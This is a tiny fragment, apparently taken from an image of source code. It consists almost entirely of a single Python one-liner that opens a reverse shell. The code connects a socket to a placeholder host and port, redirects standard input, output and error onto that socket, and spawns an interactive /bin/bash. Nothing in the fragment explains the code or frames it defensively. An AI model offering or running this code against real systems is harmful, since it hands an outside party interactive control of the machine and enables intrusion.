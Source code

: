 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip_host", port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

